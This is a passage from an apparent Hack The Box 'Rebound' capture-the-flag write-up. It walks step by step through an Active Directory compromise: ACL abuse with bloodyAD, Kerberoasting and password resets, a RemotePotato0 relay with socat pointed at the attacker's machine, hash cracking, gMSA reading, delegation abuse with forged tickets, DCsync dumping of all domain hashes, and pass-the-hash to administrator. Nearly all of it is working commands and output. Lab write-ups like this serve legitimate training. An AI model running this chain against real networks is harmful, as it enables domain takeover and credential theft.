└─$ bloodyAD --host 10.129.232.31 -d rebound.htb -u oorend -p '1GR8t@$$4u' add genericAll 'OU=SERVICE USERS,DC=rebound,DC=htb' oorend
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=rebound,DC=htb
```

then we can try to kerberoast the user and get the password by setting up an SPN ( I dont want to change the password ! what if we can reuse the password)
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ bloodyAD --host 10.129.232.31 -d rebound.htb -u oorend -p '1GR8t@$$4u'  set object winrm_svc servicePrincipalName -v 'cifs/fake'

[+] winrm_svc's servicePrincipalName has been updated
```

we can kerbroast the winrm_svc account
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ impacket-GetUserSPNs rebound.htb/oorend:'1GR8t@$$4u' -dc-ip 10.129.232.31 -request-user winrm_svc -outputfile winrm_svc_hash.txt

Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName  Name       MemberOf                                                 PasswordLastSet             LastLogon                   Delegation 
--------------------  ---------  -------------------------------------------------------  --------------------------  --------------------------  ----------
cifs/fake             winrm_svc  CN=Remote Management Users,CN=Builtin,DC=rebound,DC=htb  2026-11-09 06:33:00.378954  2023-04-08 18:03:38.047176             

[-] CCache file is not found. Skipping..
```

i tried to crack the password but no luck , we gonna change the password
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ bloodyAD --host 10.129.232.31 -d rebound.htb -u oorend -p '1GR8t@$$4u' set password winrm_svc 'NewPass123!'

[+] Password changed successfully!
```
then we can authenticate to winrm service
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ evil-winrm -i 10.129.232.31 -u winrm_svc -p 'NewPass123!'
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> cat user.txt
45e04ac32d16a9c77ee2cd8be5abb45e
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> 
```

and grab the user flag 

we can check for any delegation , and can see the `delegator$` has constrained delegation on `http//:dc01.rebound.htb`
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ nxc ldap 10.129.232.31 -u winrm_svc -p 'NewPass123!' --find-delegation
LDAP        10.129.232.31   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb) (signing:Enforced) (channel binding:Always)                                                                                                                                                     
LDAP        10.129.232.31   389    DC01             [+] rebound.htb\winrm_svc:NewPass123! 
LDAP        10.129.232.31   389    DC01             AccountName AccountType                         DelegationType DelegationRightsTo   
LDAP        10.129.232.31   389    DC01             ----------- ----------------------------------- -------------- ---------------------
LDAP        10.129.232.31   389    DC01             delegator$  ms-DS-Group-Managed-Service-Account Constrained    http/dc01.rebound.htb
```
we dont have any non-default unconstrained delegation right 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ nxc ldap 10.129.232.31 -u winrm_svc -p 'NewPass123!' --trusted-for-delegation 
LDAP        10.129.232.31   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb) (signing:Enforced) (channel binding:Always)                                                                                                                                                     
LDAP        10.129.232.31   389    DC01             [+] rebound.htb\winrm_svc:NewPass123! 
LDAP        10.129.232.31   389    DC01             DC01$
```

so we move forward with enumeration to find credentials or access to delegator
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ nxc ldap 10.129.232.31 -u winrm_svc -p 'NewPass123!' --gmsa
LDAP        10.129.232.31   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb) (signing:Enforced) (channel binding:Always)                                                                                                                                                     
LDAP        10.129.232.31   389    DC01             [+] rebound.htb\winrm_svc:NewPass123! 
LDAP        10.129.232.31   389    DC01             [*] Getting GMSA Passwords
LDAP        10.129.232.31   389    DC01             Account: delegator$           NTLM: <no read permissions>                PrincipalsAllowedToReadPassword: tbrady
```

Seems `Tbrady` have the right to read gMSA password : )  !! so lets start focusing on Tbrady



I tried several  methodology to find `Tbrady` credentials but none of them was succesful if the user have logon session we can use cross-relay section
```bash
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> qwinsta
qwinsta.exe : No session exists for *
    + CategoryInfo          : NotSpecified: (No session exists for *:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> 
```

After bit of research and claude we can bypass this error using RunasCs.exe with `-l 9` which creates a new logon session which clones the current token privelege and never validate locally 

we can upload the `RunasCs.exe` tool to our session
```bash
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> certutil -urlcache -f http://10.10.17.192/RunasCs.exe RunasCs.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> ls


    Directory: C:\Users\winrm_svc\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/8/2026  11:15 PM       10136093 lazagne.exe
-a----        11/8/2026  11:55 PM          51712 RunasCs.exe


*Evil-WinRM* PS C:\Users\winrm_svc\Documents> 
```
``
we can now check the logged session
```bash
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> .\RunasCs.exe Fake Fake qwinsta -l 9

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>services                                    0  Disc
 console           tbrady                    1  Ac
```

lets check for an  ticket with rubues
```bash
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> C:\Users\winrm_svc\Documents\Rubeus.exe triage

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


Action: Triage Kerberos Tickets (Current User)

[*] Current LUID    : 0x1600530

 ---------------------------------------
 | LUID | UserName | Service | EndTime |
 ---------------------------------------
 ---------------------------------------
```
it doesnt seems to have any to save ticket on the session , from the above qwinsta enumeration we can see their is an 2nd user called tbrady logged we can capture his hash by cross-session relay attack

Running the socat command we will forwarding incoming traffic back to the RPC listener , the reason we port forward to 9998 instead of port 135 its because RemotePotato0 tricks a COM object (spawned in tbrady’s session 1) into making an OxidResolver RPC call to an external IP we control. That RPC must go to port 135  it’s hardcoded by Windows. Since the victim’s own 135 is taken by the real RPC service, we point the COM object at our Kali (`-x 10.10.17.192`) and socat on Kali forwards that request back to the victim’s `:9998` where RemotePotato0’s rogue resolver is actually listening.
`Terminal-1`
```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound/Collectors/GhostPack]
└─$ sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:10.129.232.31:9998 &
```

Now we gonna use 2nd module from remotepoatoe.exe which capture the NTLMv2 hash and with potaote trigger

`Terminal-2 /winrm_svc`
```bash
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> .\RemotePotato0.exe -m 2 -x 10.10.17.192 -p 9998 -s 1
[*] Detected a Windows Server version not compatible with JuicyPotato. RogueOxidResolver must be run remotely. Remember to forward tcp port 135 on (null) to your victim machine on port 9998
[*] Example Network redirector:
        sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:{{ThisMachineIp}}:9998
[*] Starting the RPC server to capture the credentials hash from the user authentication!!
[*] Spawning COM object in the session: 1
[*] Calling StandardGetInstanceFromIStorage with CLSID:{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
[*] RPC relay server listening on port 9997 ...
[*] Starting RogueOxidResolver RPC Server listening on port 9998 ...
[*] IStoragetrigger written: 106 bytes
[*] ServerAlive2 RPC Call
[*] ResolveOxid2 RPC call
[+] Received the relayed authentication on the RPC relay server on port 9997
[*] Connected to RPC Server 127.0.0.1 on port 9998
[+] User hash stolen!

NTLMv2 Client   : DC01
NTLMv2 Username : rebound\tbrady
NTLMv2 Hash     : tbrady::rebound:8b746918e24c7157:1536bed793ea0049bf753c06ebcb1234:0101000000000000d905f316bc71dd01162ab20a3a54de230000000002000e007200650062006f0075006e006400010008004400430030003100040016007200650062006f0075006e0064002e006800740062000300200064006300300031002e007200650062006f0075006e0064002e00680074006200050016007200650062006f0075006e0064002e0068007400620007000800d905f316bc71dd01060004000600000008003000300000000000000001000000002000005062490849ffe706f451566e82421b860dbada172bbfcc161b5066fc55bc54aa0a00100000000000000000000000000000000000090000000000000000000000
```

then we can crack the hash using hashcat with world-list rockyou : )  !!
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ hashcat tbrady_hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting in autodetect mode                                                                                                                   
                                                                                                                                                               
OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================           
* Device #01: cpu-skylake-avx512-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2845/5691 MB (1024 MB allocatable), 8MCU                                      
                                                                                                                                                               
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

5600 | NetNTLMv2 | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 514 MB (1626 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

TBRADY::rebound:8b746918e24c7157:1536bed793ea0049bf753c06ebcb1234:0101000000000000d905f316bc71dd01162ab20a3a54de230000000002000e007200650062006f0075006e006400010008004400430030003100040016007200650062006f0075006e0064002e006800740062000300200064006300300031002e007200650062006f0075006e0064002e00680074006200050016007200650062006f0075006e0064002e0068007400620007000800d905f316bc71dd01060004000600000008003000300000000000000001000000002000005062490849ffe706f451566e82421b860dbada172bbfcc161b5066fc55bc54aa0a00100000000000000000000000000000000000090000000000000000000000:543BOMBOMBUNmanda
```

we know Tbraday has right to read gmsa password so we can get `delegato$` NTLM hash
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ nxc ldap 10.129.232.31 -u 'TBrady' -p '543BOMBOMBUNmanda' --gmsa
LDAP        10.129.232.31   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb) (signing:Enforced) (channel binding:Always)
LDAP        10.129.232.31   389    DC01             [+] rebound.htb\TBrady:543BOMBOMBUNmanda 
LDAP        10.129.232.31   389    DC01             [*] Getting GMSA Passwords
LDAP        10.129.232.31   389    DC01             Account: delegator$           NTLM: f8bc57d965eb807f87fc083f260fba88     PrincipalsAllowedToReadPassword: tbrady                                                                       
```

`delegator$ : f8bc57d965eb807f87fc083f260fba88 `

As we found earlier `delegator$` has the right to delegate to DC01 using netexec
> Reference
https://www.thehacker.recipes/ad/movement/kerberos/delegations/

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ impacket-findDelegation "rebound.htb"/"TBrady":"543BOMBOMBUNmanda"
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

AccountName  AccountType                          DelegationType                       DelegationRightsTo     SPN Exists 
-----------  -----------------------------------  -----------------------------------  ---------------------  ----------
DC01$        Computer                             Unconstrained                        N/A                    Yes        
delegator$   ms-DS-Group-Managed-Service-Account  Constrained w/o Protocol Transition  http/dc01.rebound.htb  No    
```

we can see we have constrained delegation without prptocol transition which means S4U2self requests won't result in forwardable service tickets,hence failing at providing the requirement for S4U2proxy to work

which mean we can obtain an service ticket but it won't be forwardable. And S4U2Proxy usually needs an forwardable ST to work.

so we are setting up `msDS-AllowedToActOnBehalfOfOtherIdentity` to ldap_monitor who we have credential as well account already setuped with `spn` we can set spn svc_winrm but its get resetted within 5-10min so we would be contineuing with the user ldap_monitor
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ impacket-rbcd 'rebound.htb/delegator$' -hashes :f8bc57d965eb807f87fc083f260fba88 -k -delegate-from ldap_monitor -delegate-to 'delegator$' -action write -dc-ip dc01.rebound.htb -use-ldaps

Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] ldap_monitor can now impersonate users on delegator$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ldap_monitor   (S-1-5-21-4078382237-1492182817-2568127209-7681)
```
Now we can request an TGS ticket on behalf of `delegator$`

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ impacket-getST 'rebound.htb/ldap_monitor:1GR8t@$$4u' -spn browser/dc01.rebound.htb -impersonate 'DC01$'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for user
[*] Impersonating DC01$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache
```
since we obtained the TGS for `DC01`  on `browser/dc01.rebound.htb` it can be used in a S4UProxy request where we can request service `http/dc01.rebound.htb`on behalf of the administrator
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ impacket-getST -spn "http/dc01.rebound.htb" -impersonate "administrator" -additional-ticket 'DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache' "rebound.htb"/"delegator$" -hashes :f8bc57d965eb807f87fc083f260fba88
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for user
[*] Impersonating administrator
[*]     Using additional ticket DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache instead of S4U2Self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@http_dc01.rebound.htb@REBOUND.HTB.ccache
```

then we can dump the credentials by DCsync
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ export KRB5CCNAME='DC01$@http_dc01.rebound.htb@REBOUND.HTB.ccache'

┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ impacket-secretsdump -no-pass -k dc01.rebound.htb -just-dc-ntlm
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:176be138594933bb67db3b2572fc91b8:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1108b27a9ff61ed4139d1443fbcf664b:::
ppaul:1951:aad3b435b51404eeaad3b435b51404ee:7785a4172e31e908159b0904e1153ec0:::
llune:2952:aad3b435b51404eeaad3b435b51404ee:e283977e2cbffafc0d6a6bd2a50ea680:::
fflock:3382:aad3b435b51404eeaad3b435b51404ee:1fc1d0f9c5ada600903200bc308f7981:::
jjones:5277:aad3b435b51404eeaad3b435b51404ee:e1ca2a386be17d4a7f938721ece7fef7:::
mmalone:5569:aad3b435b51404eeaad3b435b51404ee:87becdfa676275415836f7e3871eefa3:::
nnoon:5680:aad3b435b51404eeaad3b435b51404ee:f9a5317b1011878fc527848b6282cd6e:::
ldap_monitor:7681:aad3b435b51404eeaad3b435b51404ee:5af1ff64aac6100ea8fd2223b642d818:::
oorend:7682:aad3b435b51404eeaad3b435b51404ee:5af1ff64aac6100ea8fd2223b642d818:::
winrm_svc:7684:aad3b435b51404eeaad3b435b51404ee:4469650fd892e98933b4536d2e86e512:::
batch_runner:7685:aad3b435b51404eeaad3b435b51404ee:d8a34636c7180c5851c19d3e865814e0:::
tbrady:7686:aad3b435b51404eeaad3b435b51404ee:114e76d0be2f60bd75dc160ab3607215:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:989c1783900ffcb85de8d5ca4430c70f:::
delegator$:7687:aad3b435b51404eeaad3b435b51404ee:f8bc57d965eb807f87fc083f260fba88:::
[*] Cleaning up... 
```

we got the Domain compromise
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ evil-winrm -i dc01.rebound.htb -u administrator -H 176be138594933bb67db3b2572fc91b8
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
dc01
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
rebound\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```


